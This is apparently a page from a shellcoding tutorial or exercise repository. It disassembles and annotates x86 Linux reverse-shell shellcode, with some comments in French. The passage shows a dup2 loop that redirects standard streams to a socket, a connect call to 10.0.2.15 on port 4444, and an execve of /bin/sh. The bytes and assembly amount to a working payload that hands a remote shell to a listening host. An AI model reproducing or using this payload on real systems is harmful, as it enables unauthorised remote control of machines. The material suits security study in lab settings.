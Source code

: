 The system call dup2 allows to duplicate the descriptor files. 
This allows redirecting the outputs (stdin, stdout et stderr) to the socktfd in order to obtain a visualization once the connection is made.

```c

        ; we save sockfd into ebx

    804850f:	93                   	xchg   ebx,eax

        ; http://man7.org/linux/man-pages/man2/dup.2.html
        ; int dup2(int oldfd, int newfd);
        ; EAX: 0x1 EBX: 0x3 ECX: 0x2 
    
 
    8048510:	59                   	pop    ecx                 ; ecx is set to 2
    8048511:	b0 3f                	mov    al,0x3f             ; dup2 syscall
    8048513:	cd 80                	int    0x80
    8048515:	49                   	dec    ecx                 ; loop while ecx > 0
    8048516:	79 f9                	jns    8048511 <code+0x11>
```

```c
        ; Execute sys_connect selon le protorype suivant
        ; http://man7.org/linux/man-pages/man2/connect.2.html
        ; int connect(int sockfd, const struct sockaddr *addr, addrlen)
        ; EAX: 0x0 
        ; EBX: 0x3 
        ; ECX: 0xffffcf4c --> 0x5c110002 
        ; EDX: 0x0 
	 
    8048518:	68 0a 00 02 0f       	push   0xf02000a    ; @ip 10.0.2.15
    804851d:	68 02 00 11 5c       	push   0x5c110002   ; port 4444(0x115c)
    8048522:	89 e1                	mov    ecx,esp
    8048524:	b0 66                	mov    al,0x66      ; set eax to 0x66
    8048526:	50                   	push   eax	        ; push onto the stack eax, ecx and ebx
    8048527:	51                   	push   ecx	        ; ecx pointed to *addr
    8048528:	53                   	push   ebx	       
    8048529:	b3 03                	mov    bl,0x3 	    
    804852b:	89 e1                	mov    ecx,esp
    804852d:	cd 80                	int    0x80         ; connect(socktfd, [2,4444,10.0.2.15], eax)
```

```c
	    ; execve syscall
	    ; int execve(const char *filename, char *const argv[], char *const envp[]);
	    ; execute /bin/sh

    804852f:	52                   	push   edx	        ; null byte
    8048530:	68 6e 2f 73 68       	push   0x68732f6e   ; "//bin/sh"
    8048535:	68 2f 2f 62 69       	push   0x69622f2f
    804853a:	89 e3                	mov    ebx,esp      ; ebx is *filename
    804853c:	52                   	push   edx          ; argv is set to 0
    804853d:	53                   	push   ebx          ; envp is set to 0
    804853e:	89 e1                	mov    ecx,esp      
    8048540:	b0 0b                	mov    al,0xb	    ; syscall execve("/bin/sh',null,null)
 8048542:	cd 80                	int    0x80
````
